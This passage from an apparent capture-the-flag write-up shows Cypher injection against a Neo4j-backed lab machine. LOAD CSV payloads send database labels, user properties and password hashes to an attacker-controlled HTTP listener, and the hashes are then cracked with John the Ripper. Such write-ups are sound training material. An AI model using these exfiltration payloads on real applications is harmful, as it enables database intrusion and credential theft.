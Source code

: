 ```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.77.238 - - [24/Jun/2023 12:56:26] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.129.77.238 - - [24/Jun/2023 12:56:26] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

Extracting the labels using the payload,

```info
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.16/?label='+label as l RETURN 0 as _0 //
```

```bash
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=employee HTTP/1.1" 200 -
```

The labels can be further explored using this payload.

```bash
' OR 1=1 WITH 1 as a MATCH (f:<label>) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

The `user` label might contain valuable data, which can be extracted using this payload,

```bash
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

This returns username and password hashes for two users: `admin` and `john`.

```bash
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?username=admin HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?username=john HTTP/1.1" 200 -
```

The hashes can be cracked using John the Ripper.

```bash
> john hashes.txt --format=Raw-SHA256 --show
admin:admin
john:ThisIs4You
```
